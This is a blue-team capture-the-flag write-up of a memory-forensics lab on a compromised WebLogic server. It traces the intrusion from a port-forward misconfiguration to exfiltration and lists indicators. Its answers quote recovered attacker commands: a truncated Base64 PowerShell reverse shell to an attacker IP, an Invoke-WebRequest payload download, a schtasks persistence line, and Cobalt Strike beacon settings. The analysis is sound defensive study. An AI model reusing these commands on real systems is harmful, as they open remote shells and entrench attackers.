

# WebLogic Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
- [Attack Chain](#attack-chain)
  * [Attack Tree](#attack-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/weblogic/](https://cyberdefenders.org/blueteam-ctf-challenges/weblogic/)

Suggested tools: Volatility 3, CobaltStrike Parser

Tactics: Initial Access, Execution, Persistence, Privilege Escalation, Command and Control, Exfiltration

# Scenario

The #NSM gear flagged suspicious traffic coming from one of the organization's web servers. As a soc analyst, analyze the server's captured memory logs files and figure out what happened.

# Questions

Q1- What is the version of the WebLogic server installed on the system?

Answer: `14.1.1.0.0`

Reason: Memory forensics of `memory.mem` via the pre-generated MemProcFS `filescan` output confirmed the installed WebLogic server version as `14.1.1.0.0`, identified through Start Menu shortcut artifacts referencing "Oracle FMW - 14.1.1.0.0" (Oracle Fusion Middleware, WebLogic's parent product suite), including `Online Documentation.lnk` and `Uninstall OracleHome1.lnk` at file record offsets `0xb68cb23d6080` and `0xb68cb23dc670` respectively.

```bash
ubuntu@ip-172-31-28-143:~/Desktop/Start Here/Artifacts$ grep -i "14.1.1.0.0" MemProcFS\ Output/filescan.txt
0xb68cb23d6080	\ProgramData\Microsoft\Windows\Start Menu\Programs\Oracle FMW - 14.1.1.0.0\Online Documentation.lnk	216
0xb68cb23dc670	\ProgramData\Microsoft\Windows\Start Menu\Programs\Oracle FMW - 14.1.1.0.0\Uninstall OracleHome1.lnk	216
```

Q2- The admin set a port forward rule to redirect the traffic from the public port to the WebLogic admin portal port. What is the public and WebLogic admin portal port number? Format PublicPort:WebLogicPort (22:1337)

Answer: `80`:`7001`

Reason: Registry analysis of `memory.mem` via MemProcFS output revealed a `PortProxy` configuration under `\REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\PortProxy\v4tov4\tcp`, last written `2021-08-06 11:01:52 UTC`, mapping `192.168.144.131/80` (public-facing port) to `192.168.144.131/7001` (WebLogic admin portal port), confirming the admin had configured a Windows netsh port-forward rule to expose the internal WebLogic Admin Console over the standard HTTP port; the same rule was duplicated under `ControlSet002`.

```bash
ubuntu@ip-172-31-28-143:~/Desktop/Start Here/Artifacts$ strings MemProcFS\ Output/registry_keys.txt | grep -i portproxy
** 2021-08-06 16:13:20.000000 	0x808fe7e41000	Key	\REGISTRY\MACHINE\SYSTEM\ControlSet001\Services	PortProxy		False
*** 2021-08-06 11:01:52.000000 	0x808fe7e41000	Key	\REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\PortProxy	v4tov4		False
**** 2021-08-06 11:01:52.000000 	0x808fe7e41000	Key	\REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\PortProxy\v4tov4	tcp		False
***** 2021-08-06 11:01:52.000000 	0x808fe7e41000	REG_SZ	\REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\PortProxy\v4tov4\tcp	192.168.144.131/80	"192.168.144.131/7001"	False
** 2021-08-06 15:25:42.000000 	0x808fe7e41000	Key	\REGISTRY\MACHINE\SYSTEM\ControlSet002\Services	PortProxy		False
*** 2021-08-06 11:01:52.000000 	0x808fe7e41000	Key	\REGISTRY\MACHINE\SYSTEM\ControlSet002\Services\PortProxy	v4tov4		False
**** 2021-08-06 11:01:52.000000 	0x808fe7e41000	Key	\REGISTRY\MACHINE\SYSTEM\ControlSet002\Services\PortProxy\v4tov4	tcp		False
***** 2021-08-06 11:01:52.000000 	0x808fe7e41000	REG_SZ	\REGISTRY\MACHINE\SYSTEM\ControlSet002\Services\PortProxy\v4tov4\tcp	192.168.144.131/80	"192.168.144.131/7001"	False
```

Q3- The attacker gain access through WebLogic Server. What is the PID of the process responsible for the initial exploit?

Answer: `4752`

Reason: Process tree analysis of `memory.mem` via MemProcFS output identified `java.exe` (PID `4752`, PPID `4556`, spawned `2021-08-06 15:30:05 UTC`) as the WebLogic worker process responsible for the initial exploit, evidenced by the fact that it later spawned nine `powershell.exe` child processes beginning at `2021-08-06 15:51:40 UTC` — a classic WebLogic RCE post-exploitation pattern where the Java server process directly forks a command interpreter rather than the JVM's normal child processes.

```bash
ubuntu@ip-172-31-28-143:~/Desktop/Start Here/Artifacts/MemProcFS Output$ cat pstree.txt | grep -i java -A 10
[...]
******* 4752	4556	java.exe	0xb68cb23e4080	44	-	1	False	2021-08-06 15:30:05.000000 	N/A
******** 3520	4752	powershell.exe	0xb68cb3045080	0	-	1	False	2021-08-06 15:51:40.000000 	2021-08-06 15:51:44.000000 
******** 3684	4752	powershell.exe	0xb68cb2df3080	0	-	1	False	2021-08-06 15:51:40.000000 	2021-08-06 15:51:44.000000 
******** 4200	4752	powershell.exe	0xb68cb356f080	0	-	1	False	2021-08-06 15:51:40.000000 	2021-08-06 15:51:44.000000 
******** 4264	4752	powershell.exe	0xb68cb22fe080	0	-	1	False	2021-08-06 15:51:40.000000 	2021-08-06 15:51:44.000000 
******** 776	4752	powershell.exe	0xb68cb34c2800	0	-	1	False	2021-08-06 15:51:40.000000 	2021-08-06 15:51:44.000000 
******** 2712	4752	powershell.exe	0xb68cb322f800	0	-	1	False	2021-08-06 15:51:40.000000 	2021-08-06 15:51:45.000000 
******** 1616	4752	powershell.exe	0xb68cb34ca800	0	-	1	False	2021-08-06 15:51:40.000000 	2021-08-06 15:51:44.000000 
******** 2132	4752	powershell.exe	0xb68cb33c9080	0	-	1	False	2021-08-06 15:51:40.000000 	2021-08-06 15:51:44.000000 
******** 1012	4752	powershell.exe	0xb68cb32fa800	0	-	1	False	2021-08-06 15:51:40.000000 	2021-08-06 15:51:44.000000 
******** 4344	4752	powershell.exe	0xb68cb32c6800	15	-	1	False	2021-08-06 15:51:40.000000 	N/A
```

Q4- The attacker used the vulnerability he found in the webserver to execute a reverse shell command to his own server. Provide the IP and port of the attacker server? Format: IP:port

Answer: `192.168.144.129:1339`

Reason: Analysis of the WebLogic child process command lines in `cmdline.txt` recovered a Base64-encoded PowerShell command launched by PID `4344` (`java.exe` PID `4752` → `powershell.exe` PID `4344`, spawned `2021-08-06 15:51:40 UTC` per Q3's process tree), which decoded from Base64/UTF-16LE (per the `-EncodedCommand` convention) into a manual TCP reverse-shell payload instantiating `System.Net.Sockets.TCPClient("192.168.144.129", 1339)`, confirming the attacker's callback server as `192.168.144.129`:`1339` and the shell mechanism as a raw socket read/eval loop piping command output back over the same connection.

```bash
ubuntu@ip-172-31-28-143:~/Desktop/Start Here/Artifacts/MemProcFS Output$ cat cmdline.txt | grep powershell | grep -v "Required"
4344	powershell.exe	powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEANAA0AC4AMQAyADkAIgAsADEAMwAzADkAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQA[...]
```



Q5- Multiple files were downloaded from the attacker's web server. Provide the Command used to download the PowerShell script used for persistence?

Answer: `Invoke-WebRequest -Uri "http://192.168.144.129:1338/presist.ps1" -OutFile "./presist.ps1"`

Reason: Recovery of ASCII/UTF-16LE strings from the reverse-shell process memory dump `processdump/pid.4344.dmp` (PID `4344`, the `powershell.exe` reverse shell identified in Q4) revealed the command `Invoke-WebRequest -Uri "<http://192.168.144.129:1338/presist.ps1>" -OutFile "./presist.ps1"`, showing the attacker used the reverse shell established at `2021-08-06 15:51:40 UTC` to pull a persistence script named `presist.ps1` from a second attacker-hosted service on `192.168.144.129`:`1338` (distinct from the `1339` reverse-shell callback port in Q4), consistent with a staged web server used purely for payload hosting/delivery.

```bash
ubuntu@ip-172-31-28-143:~/Desktop/Start Here/Artifacts/MemProcFS Output$ strings -a -el processdump/pid.4344.dmp | grep -F 'presist.ps1' -C 5 | grep -i invoke
Invoke-WebRequest -Uri "http://192.168.144.129:1338/presist.ps1" -OutFile "./presist.ps1"
```

Q6- What is the MITRE ID related to the persistence technique the attacker used?

Answer: T1053.005

Reason: Further string analysis of process memory dump `pid.4344.dmp` recovered the contents of `C:\Users\Administrator\Desktop\presist.ps1` (downloaded in Q5), which executed `schtasks /create /tn ServiceUpdate /tr "powershell -e JABjAGw[...]"`, creating a scheduled task named `ServiceUpdate` whose trigger re-launches the same Base64-encoded PowerShell reverse-shell payload identified in Q4, mapping this persistence mechanism to MITRE ATT&CK technique `T1053.005` (Scheduled Task/Job: Scheduled Task).

```bash
C:\Users\Administrator\Desktop\presist.ps1
schtasks /create /tn ServiceUpdate /tr "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEANAA0AC4AMQAyADkAIgAsADEAMwAzADkAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAk[...]
```

Q7- After maintaining persistence, the attacker dropped a cobalt strike beacon. Try to analyze it and provide the User-Agent.

Answer: `Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0) LBBROWSER`

Reason: Identification of the masquerading process `svchost.exe` (PID `1488`, running from the non-standard path `C:\Users\Administrator\Desktop\svchost.exe` rather than `C:\Windows\System32`) led to extraction of its injected memory region via `malfind`, and parsing `pid.1488.vad.0x3160000-0x355ffff.dmp` with CobaltStrikeParser's `parse_beacon_config.py` recovered a full HTTP beacon configuration — C2 server `192.168.144.129`, malleable C2 URI `/updates.rss`, POST URI `/submit.php`, port `1337`, sleep `60000`ms, jitter `0` — confirming the dropped payload as a Cobalt Strike beacon and identifying its configured User-Agent as `Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0) LBBROWSER`.

```bash
ubuntu@ip-172-31-28-143:~/Desktop/Start Here/Artifacts/MemProcFS Output$ grep -i svchost cmdline.txt | grep -i desktop
1488	svchost.exe	"C:\Users\Administrator\Desktop\svchost.exe"

ubuntu@ip-172-31-28-143:~/Desktop/Start Here/Tools/CobaltStrikeParser$ python3 parse_beacon_config.py ../../Artifacts/MemProcFS\ Output/malfind/pid.1488.vad.0x3160000-0x355ffff.dmp 
BeaconType                       - HTTP
Port                             - 1337
SleepTime                        - 60000
MaxGetSize                       - 1048576
Jitter                           - 0
MaxDNS                           - 255
PublicKey_MD5                    - 1eb3eca6185efd24d247f71ee865e89e
C2Server                         - 192.168.144.129,/updates.rss
UserAgent                        - Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0) LBBROWSER
HttpPostUri                      - /submit.php
```

Q8- What is the URL of the exfiltrated data?

Answer: `hxxps://pastebin.com/A0Ljk8tu`

Reason: Identification of `notepad.exe` (PID `4596`) opening `exfiltrator.txt` prompted a string extraction of its process memory dump `pid.4596.dmp`, which recovered the URL `https://pastebin.com/A0Ljk8tu` immediately following the filename reference, indicating the attacker used a public Pastebin paste as the exfiltration destination for the stolen data.

```bash
ubuntu@ip-172-31-28-143:~/Desktop/Start Here/Artifacts/MemProcFS Output$ grep -i "notepad.exe" cmdline.txt 
4596	notepad.exe	"C:\Windows\System32\notepad.exe" exfiltrator.txt

ubuntu@ip-172-31-28-143:~/Desktop/Start Here/Artifacts/MemProcFS Output$ strings -e l processdump/pid.4596.dmp | grep -i "exfiltrator.txt" -A 1
exfiltrator.txt
https://pastebin.com/A0Ljk8tu
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2021-08-06 11:01:52 | Initial Access (enabler) | Admin configured Windows `PortProxy` rule forwarding public port `80` → internal WebLogic Admin Console port `7001`, exposing an unauthenticated admin interface to the internet | T1190 |
| 2021-08-06 15:30:05 | Initial Access | `java.exe` (PID `4752`, PPID `4556`) spawned as the WebLogic `14.1.1.0.0` worker process exploited for remote code execution | T1190 |
| 2021-08-06 15:51:40 | Execution / C2 | `java.exe` (PID `4752`) spawned `powershell.exe` (PID `4344`) which opened a raw TCP reverse shell to attacker server `192.168.144.129`:`1339` | T1059.001 |
| 2021-08-06 15:51:40 (same session) | Persistence (staging) | Reverse shell used `Invoke-WebRequest -Uri "<http://192.168.144.129:1338/presist.ps1>" -OutFile "./presist.ps1"` to pull persistence script from attacker payload host | T1105 |
| 2021-08-06 15:51:40 (same session) | Persistence | `presist.ps1` executed `schtasks /create /tn ServiceUpdate /tr "powershell -e ..."`, creating scheduled task `ServiceUpdate` to relaunch the reverse-shell payload | T1053.005 |
| unknown (post-persistence) | Defense Evasion / C2 | Cobalt Strike beacon dropped as `svchost.exe` (PID `1488`) from `C:\Users\Administrator\Desktop`, masquerading as the legitimate Windows service host; beacon configured for HTTP C2 to `192.168.144.129` via `/updates.rss` on port `1337`, POSTing to `/submit.php`, 60s sleep | T1036.005, T1071.001 |
| unknown (post-beacon) | Exfiltration | `notepad.exe` (PID `4596`) opened `exfiltrator.txt` containing exfil destination hxxps://pastebin[.]com/A0Ljk8tu, indicating stolen data was pushed to a public Pastebin paste | T1567.002 |

## Attack Tree

```bash
[Admin PortProxy misconfig — 80 → 7001]  ← exposes WebLogic Admin Console publicly
    └── WebLogic 14.1.1.0.0 exploited (unauthenticated RCE)
        └── java.exe (PID 4752) ← exploited WebLogic worker process
            └── [Stage 1 — Foothold]
            │   └── powershell.exe (PID 4344)
            │       └── TCPClient reverse shell → 192.168.144.129:1339  ← outbound callback
            │
            ├── [Stage 2 — Persistence]
            │   └── Invoke-WebRequest → hxxp://192.168.144.129:1338/presist.ps1
            │       └── schtasks /create /tn ServiceUpdate
            │           └── re-executes b64 reverse-shell payload on trigger
            │
            ├── [Stage 3 — C2 Upgrade]
            │   └── svchost.exe (PID 1488, dropped to Desktop) ← masquerading
            │       └── Cobalt Strike HTTP beacon
            │           └── C2: 192.168.144.129:1337 /updates.rss (GET) + /submit.php (POST)
            │
            └── [Stage 4 — Exfiltration]
                └── notepad.exe (PID 4596) opens exfiltrator.txt
                    └── hxxps://pastebin[.]com/A0Ljk8tu  ← exfil destination
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Host Indicators | WebLogic version | `14.1.1.0`.0 |
|  | Exploited process | java.exe (PID 4752) |
|  | Persistence script path | `C:\Users\Administrator\Desktop\presist.ps1` |
|  | Cobalt Strike beacon path | `C:\Users\Administrator\Desktop\svchost.exe` (PID 1488) |
|  | Exfil staging file | exfiltrator.txt (opened by notepad.exe, PID 4596) |
| Network | Port forward (public → internal) | 80 → 7001 |
|  | Reverse shell C2 | 192.168.144[.]129:1339 |
|  | Payload hosting server | 192.168.144[.]129:1338 |
|  | Cobalt Strike C2 server | 192.168.144[.]129:1337 |
|  | Cobalt Strike malleable GET URI | `/updates.rss` |
|  | Cobalt Strike POST URI | `/submit.php` |
|  | Cobalt Strike User-Agent | Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0) `LBBROWSER` |
|  | Exfiltration destination | hxxps://pastebin[.]com/A0Ljk8tu |
| Persistence | Mechanism | Scheduled Task |
|  | Task name | `ServiceUpdate` |
|  | Task command | `schtasks /create` `/tn` ServiceUpdate `/tr` "powershell -e ..." |
| Malware Config | Sleep time | 60000 ms |
|  | Jitter | 0 |
|  | PublicKey MD5 | `1eb3eca6185efd24d247f71ee865e89e` |

# Lab Insights

- A single misconfigured port forward collapses the entire trust boundary. The whole intrusion traces back to one Windows PortProxy rule forwarding public port 80 straight into an internal admin console on 7001. No exotic zero-day was needed once that boundary was gone — it turned an internal-only management interface into an internet-facing one, which is precisely the exposure that unauthenticated WebLogic RCEs are built to exploit. Network segmentation and admin-interface isolation aren't a "nice to have" here; they were the only thing standing between the internet and remote code execution.
- Living-off-the-land beats custom tooling at every stage except final entrenchment. From reverse shell to persistence, the attacker never dropped a novel binary — PowerShell, schtasks, and Invoke-WebRequest did all the work. The one place they did drop a real payload (svchost.exe) they immediately disguised it as a legitimate system binary. This is a pattern worth internalizing: attackers reserve "real" malware for the step that actually needs stealth and capability (full C2), and use built-in tools for everything that's disposable or short-lived.
- Memory artifacts survive even when the attacker thinks they've cleaned up. Every major pivot in this chain — the reverse shell command, the persistence script contents, the Cobalt Strike beacon config, the exfil URL — was recovered from process memory strings or an injected VAD region, not from disk or logs. None of these were written anywhere the attacker would think to clean, which is exactly why memory forensics remains valuable even against operators who are otherwise careful about on-disk footprint.
- Injected-memory heuristics (RWX + unbacked) generalize across tools. Whether it's Volatility's malfind or MemProcFS's equivalent, the detection logic is the same: legitimate code doesn't need to be simultaneously writable, executable, and unbacked by a file on disk. That single heuristic was enough to isolate the Cobalt Strike beacon out of an entire svchost.exe process image without needing a signature or prior knowledge of the payload.